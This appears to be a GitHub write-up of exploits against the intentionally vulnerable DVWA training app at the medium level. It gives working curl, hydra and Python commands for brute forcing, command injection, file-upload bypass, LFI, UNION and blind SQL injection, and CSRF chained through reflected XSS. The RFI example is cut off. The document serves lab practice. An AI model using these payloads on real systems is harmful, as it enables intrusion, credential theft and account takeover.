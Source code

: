 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: medium

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=medium" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### Brute Force

    $ wget https://raw.githubusercontent.com/seifreed/dirb/master/wordlists/others/best110.txt

    $ hydra -t 8 -l admin -P best110.txt -vV 192.168.56.101 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=password incorrect:H=Cookie: PHPSESSID=${PHPSESSID};security=medium"

### Command Injection

```
# '\n' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%0auname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    

OR

# '&' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%26uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    
```

### File Upload

**Vuln:** insufficient file type validation - looking only at filetype controlled by the user ($_FILES['userfile']['type'])

**Exploitation**

```
cat > b.php <<EOF
<?php phpinfo(); ?>
EOF

curl -x 127.0.0.1:8080 -L -b "PHPSESSID=${PHPSESSID};security=medium" -F "MAX_FILE_SIZE=100000" -F "uploaded=@b.php;type=image/jpeg;filename=b.php" -F "Upload=Upload" http://192.168.56.101/DVWA/vulnerabilities/upload/index.php

curl -s -b "PHPSESSID=${PHPSESSID};security=medium" http://192.168.56.101/DVWA/hackable/uploads/b.php
```

### File Inclusion

**Vuln:** insufficient input validation

**Exploitation**

```
# LFI:
$ curl -L -b "PHPSESSID=${PHPSESSID};security=medium" -v http://192.168.56.101/DVWA/vulnerabilities/fi/?page=..././..././hackable/flags/fi.php

# RFI payload example:
hTTp://
```

### Sql Injection

**Vuln:** incorrect use of mysqli_real_escape_string function: now quotes are used so input is treated as integer

Payload to retreive users password fields:

```
1 union select Password, User from users#
```

**Exploitation**

```
$ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli/index.php" -d 'id=1+union+select+Password%2CUser+FROM+users%23&Submit=Submit'
```

### Sql Injection (Blind)

**Vulnerability**

Payloads:

```
true condtion: 1 and 1=1#
false condition: 1 and 1=0#
```

**Exploitation**

Manual:

```
# dependency:
https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command

# true condition:
curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php" -d "id=$(rawurlencode "1 and 1=1#")&Submit=Submit"

# false condition:
curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php" -d "id=$(rawurlencode "1 and 1=0#")&Submit=Submit"
```

Retreiving DBMS version PoC:

```
cat > poc.py <<EOF
"""
example output of @@version: 5.7.16-0ubuntu0.16.04.1

first find length of the @@version string:
1 and length(@@version)=7#

iterate thru printable ASCII and retreive @@version string
1 and ascii(substring(@@version,1,1))=0x35#
"""

import requests
import string
from urllib import quote, unquote

proxies = {
    "http" : "http://127.0.0.1:8080/"
}

# initiate HTTP session
session = requests.Session()
session.cookies['security'] = 'medium'
session.cookies['PHPSESSID'] = 'sg9087bvkh5pu14tarpakuqf25'

u = 'http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php'

# find length of @@version string
for i in xrange(1, 30):
    payload = "1 and length(@@version)=" + str(i) + "#"
    params = {'id': payload, 'Submit': "Submit"}
    resp = session.post(u, data=params, proxies=proxies)

    if resp.text.find("MISSING") == -1:
        len = i
        break

# retreive @@version string
version=""
for i in xrange(1, len + 1):
    for c in string.printable:
        payload = "1 and ascii(substring(@@version,{0},1))={1}#".format(i, hex(ord(c)))
        params = {'id': payload, 'Submit': "Submit"}
        resp = session.post(u, data=params, proxies=proxies)

        if resp.text.find("MISSING") == -1:
            print payload
            version += c

print version
EOF
```

### CSRF

XSS vulnerability on the DVWA site (for example this in `http://192.168.56.102/DVWA/vulnerabilities/xss_r`) needs to be used in order do defeat `Referer` check:

```
# trick victim to visit (while logged in to DVWA) the following:
http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Enew%20Image().src=%22http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=pass2%26password_conf=pass2%26Change=Change%22%3C%2Fscript%3E%3Cpre%3E#

OR

# trick victim to visit 3rd party site (while logged in to DVWA) with already planted iframe:
<iframe SRC='http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Enew%20Image().src=%22http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=pass3%26password_conf=pass3%26Change=Change%22%3C%2Fscript%3E%3Cpre%3E#' height="0" width="0"></iframe>
```

### XSS (Reflected)

    http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Ealert(1)%3C%2Fscript%3E%3Cpre%3E#

